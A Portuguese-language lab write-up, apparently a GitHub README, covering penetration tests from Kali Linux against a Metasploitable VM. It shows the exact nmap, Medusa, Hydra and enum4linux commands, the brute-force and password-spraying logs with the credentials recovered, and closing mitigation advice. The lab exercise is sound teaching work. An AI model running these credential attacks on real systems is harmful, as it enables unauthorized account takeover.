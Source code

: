 # Kali_Teste

<!-- Utilização do S.O Kali Linux e do Metasploitable para testes de ethical hacking e invasão. -->

## Descrição

Este projeto iremos utilizar ferramentas integradas do Kali Linux para execução de testes de invasão, com o apoio do Metasploitable.
Sendo mostrado passo-a-passo neste documento.

## Indice
1.Pre-requesitos(#pré-requisitos)

2.Configuração do ambiente(#configuração-do-ambiente)

3.Wordlists e arquivos(#wordlists-e-arquivos)

4.Testes realizados(#testes-realizados)

5.Evidências / Logs(#evidências--logs)

6.Mitigações e recomendações(#mitigações-e-recomendações)


## Pré-requisitos

- Oracle Virtual Box (para emulação do Kali Linux e do Metasploitable)
- Download nos sites oficiais de ambas imagens para emulação
- Criação da VM de Kali Linux com o Oracle Virtual Box
- Criação da VM do Metasploitable com o Oracle Virtual Box
- Utilizar as ferrramentas do Kali Linux: (Medusa, nmap, enum4linux)

## Configuração do ambiente

1. Apos download e instalação do Oracle Virtual Box, extrair as .iso's e executar para trazer para a lista de maquinas no Oracle.
2. Configurar a placa de rede das V.M's que foram criadas de NAT para Host-Only (assim elas poderam se enxergar entre si).
3. Iniciar ambas V.M's e testar o comando ifconfig para ver a rede de cada V.M e testar o comando de ping entre elas (ping -c 3 192.168.xxx.xxx) para ver se estão se enxergando.

## Wordlists e arquivos

1. Criação da lista de usuários para a Medusa e a Hydra: (printf "user\nmsfadmin\nadmin\nroot\n" > usuarios.txt)
2. Criação de lista de senhas para a Medusa e a Hydra: (printf "%s\n" "123456" "password" "qwerty" "msfadmin" > senhas.txt)
3. Criação da lista de usuários para o password Spraying: (printf "user\nmsfadmin\nservice" > usuarios_smb.txt) 
4. Criação de lista de senhas para o password Spraying: (printf "password\n123456\nWelcome123\nmsfadmin\n" > wordlists/spray_passwords.txt)  


## Testes realizados

- Efetuamos a varredura das portas no Megasploitable com a ferramenta Nmap no Kali Linux,

  **Utilizando o comando**
  nmap -sV -p 21,22,80,123,445,5900 192.168.56.101

  **Resultado**
  
Nmap scan report for 192.168.56.101
Host is up (0.00020s latency).

PORT     STATE  SERVICE     VERSION

21/tcp   open   ftp         vsftpd 2.3.4

22/tcp   open   ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)

80/tcp   open   http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)

123/tcp  closed ntp

445/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

5900/tcp open   vnc         VNC (protocol 3.3)

MAC Address: 08:00:27:CC:E7:68 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

- Agora vamos utilizar a ferramenta Medusa para teste de Brute-Force via FTP (TCP 21)

  **Utilizando o comando**
  medusa -h 192.168.56.101 -U usuarios.txt -P senhas.txt -M ftp -t 10 | tee logs/ftp_medusa.log

  **Resultado**

<details> <summary>log de saída (linhas com ACCOUNT FOUND)</summary>
 
2025-10-14 23:18:37 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 2 complete) Password: msfadmin (1 of 4 complete)

2025-10-14 23:18:37 ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]

2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: 123456 (1 of 4 complete)

2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 3 complete) Password: qwerty (2 of 4 complete)

2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 4 complete) Password: password (3 of 4 complete)

2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 4 complete) Password: 123456 (2 of 4 complete)

2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 4 complete) Password: password (3 of 4 complete)

2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 4, 4 complete) Password: msfadmin (4 of 4 complete)

2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: 123456 (1 of 4 complete)

2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: password (2 of 4 complete)

2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: qwerty (3 of 4 complete)

2025-10-14 23:18:39 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 4, 5 complete) Password: qwerty (4 of 4 complete)

2025-10-14 23:18:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: admin (3 of 4, 5 complete) Password: msfadmin (4 of 4 complete)

2025-10-14 23:18:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: password (1 of 4 complete)

2025-10-14 23:18:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: 123456 (2 of 4 complete)

2025-10-14 23:18:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: qwerty (3 of 4 complete)

2025-10-14 23:18:42 ACCOUNT CHECK: [ftp] Host: 192.168.56.101 (1 of 1, 0 complete) User: root (4 of 4, 5 complete) Password: msfadmin (4 of 4 complete)

</details>

Notem que na linha 2 deu sucesso ao tentar descobrir o usuario e senha da porta 21.

Abaixo tentaremos acessar o FTP com as credenciais que a Medusa nos forneceu:

ftp 192.168.56.101                                                                                 
Connected to 192.168.56.101.
220 (vsFTPd 2.3.4)
Name (192.168.56.101:kali): msfadmin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 

- Agora iremos utilizar o Hydra para o teste de Brute Force em formulário web (dvwa), pois o mesmo tem mais eficiencia em formulários HTTP.

  **Utilizando o comando**

 hydra -L usuarios.txt -P senhas.txt 192.168.56.101 http-post-form \
 "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" \
 -t 10 -f -V | tee logs/http_hydra.log

  **Resultado**

<details> <summary>log de saída</summary>
 
[DATA] max 10 tasks per 1 server, overall 10 tasks, 16 login tries (l:4/p:4), ~2 tries per task

[DATA] attacking http-post-form://192.168.56.101:80/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed

[ATTEMPT] target 192.168.56.101 - login "user" - pass "123456" - 1 of 16 [child 0] (0/0)

[ATTEMPT] target 192.168.56.101 - login "user" - pass "password" - 2 of 16 [child 1] (0/0)

[ATTEMPT] target 192.168.56.101 - login "user" - pass "qwerty" - 3 of 16 [child 2] (0/0)

[ATTEMPT] target 192.168.56.101 - login "user" - pass "msfadmin" - 4 of 16 [child 3] (0/0)

[ATTEMPT] target 192.168.56.101 - login "msfadmin" - pass "123456" - 5 of 16 [child 4] (0/0)

[ATTEMPT] target 192.168.56.101 - login "msfadmin" - pass "password" - 6 of 16 [child 5] (0/0)

[ATTEMPT] target 192.168.56.101 - login "msfadmin" - pass "qwerty" - 7 of 16 [child 6] (0/0)

[ATTEMPT] target 192.168.56.101 - login "msfadmin" - pass "msfadmin" - 8 of 16 [child 7] (0/0)

[ATTEMPT] target 192.168.56.101 - login "admin" - pass "123456" - 9 of 16 [child 8] (0/0)

[ATTEMPT] target 192.168.56.101 - login "admin" - pass "password" - 10 of 16 [child 9] (0/0)

[ATTEMPT] target 192.168.56.101 - login "admin" - pass "qwerty" - 11 of 16 [child 6] (0/0)

[ATTEMPT] target 192.168.56.101 - login "admin" - pass "msfadmin" - 12 of 16 [child 1] (0/0)

[ATTEMPT] target 192.168.56.101 - login "root" - pass "123456" - 13 of 16 [child 2] (0/0)

[ATTEMPT] target 192.168.56.101 - login "root" - pass "password" - 14 of 16 [child 3] (0/0)

[ATTEMPT] target 192.168.56.101 - login "root" - pass "qwerty" - 15 of 16 [child 4] (0/0)

[ATTEMPT] target 192.168.56.101 - login "root" - pass "msfadmin" - 16 of 16 [child 7] (0/0)

[80][http-post-form] host: 192.168.56.101   login: admin   password: password

[STATUS] attack finished for 192.168.56.101 (valid pair found)

1 of 1 target successfully completed, 1 valid password found

</details>

Note que o mesmo ja elucida o host, usuário e senha.

- Agora iremos fazer a parte de enumeração e de password Spraying e utilizaremos os wordlists ja criados.

  **Utilizando o comando**

enum4linux -a 192.168.56.101 | tee enum4_output.txt 

**Resultado**

<details> <summary>usuários</summary>

user:[games] rid:[0x3f2]

user:[nobody] rid:[0x1f5]

user:[bind] rid:[0x4ba]

user:[proxy] rid:[0x402]

user:[syslog] rid:[0x4b4]

user:[user] rid:[0xbba]

user:[www-data] rid:[0x42a]

user:[root] rid:[0x3e8]

user:[news] rid:[0x3fa]

user:[postgres] rid:[0x4c0]

user:[bin] rid:[0x3ec]

user:[mail] rid:[0x3f8]

user:[distccd] rid:[0x4c6]

user:[proftpd] rid:[0x4ca]

user:[dhcp] rid:[0x4b2]

user:[daemon] rid:[0x3ea]

user:[sshd] rid:[0x4b8]

user:[man] rid:[0x3f4]

user:[lp] rid:[0x3f6]

user:[mysql] rid:[0x4c2]

user:[gnats] rid:[0x43a]

user:[libuuid] rid:[0x4b0]

user:[backup] rid:[0x42c]

user:[msfadmin] rid:[0xbb8]

user:[telnetd] rid:[0x4c8]

user:[sys] rid:[0x3ee]

user:[klog] rid:[0x4b6]

user:[postfix] rid:[0x4bc]

user:[service] rid:[0xbbc]

user:[list] rid:[0x434]

user:[irc] rid:[0x436]

user:[ftp] rid:[0x4be]

user:[tomcat55] rid:[0x4c4]

user:[sync] rid:[0x3f0]

user:[uucp] rid:[0x3fc]

</details>

Apos a enumeração, iremos ver a parte de Password Spraying

  **Utilizando o comando**

 medusa -h 192.168.56.101 -U usuarios_smb.txt -P spray_passwords.txt -M smbnt -t 2 -T 50  


<details> <summary>log de saída</summary

2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 3, 0 complete) Password: 123456 (1 of 4 complete)

2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 3, 0 complete) Password: password (2 of 4 complete)

2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 3, 0 complete) Password: Welcome123 (3 of 4 complete)

2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: user (1 of 3, 1 complete) Password: msfadmin (4 of 4 complete)

2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 3, 1 complete) Password: password (1 of 4 complete)

2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 3, 1 complete) Password: 123456 (2 of 4 complete)

2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 3, 1 complete) Password: Welcome123 (3 of 4 complete)

2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: msfadmin (2 of 3, 2 complete) Password: msfadmin (4 of 4 complete)

2025-10-15 00:49:37 ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]

2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: service (3 of 3, 3 complete) Password: password (1 of 4 complete)

2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: service (3 of 3, 3 complete) Password: 123456 (2 of 4 complete)

2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: service (3 of 3, 3 complete) Password: Welcome123 (3 of 4 complete)

2025-10-15 00:49:37 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: service (3 of 3, 4 complete) Password: msfadmin (4 of 4 complete)

</details>

Notem que ele conseguiu achar um usuário e senha para o acesso via SMB.

# Evidencias:

Coloquei os logs e os worklists adicionados junto ao main.

# Mitigação

FTP: evitar FTP simples; usar SFTP/FTPS; proibir contas com senhas fracas e usar bloqueio após X tentativas; monitorar logs de autenticação.

Formulários web: proteção contra brute force (rate limiting, CAPTCHA, WAF), políticas de bloqueio progressivo ou de quantidade de tentativas, uso de hashing + salt nas senhas, autenticação 2FA .

SMB: desativar SMBv1, aplicar políticas de senha forte, logging, detecção de varreduras/ataques de senha, limitar contas administrativas e aplicar lockout/alertas.

Geral: implementar MFA, políticas de rotação de senha com troca trimestral, monitoramento SIEM, segmentação de rede e princípio do privilégio mínimo e monitoramento de trafego.
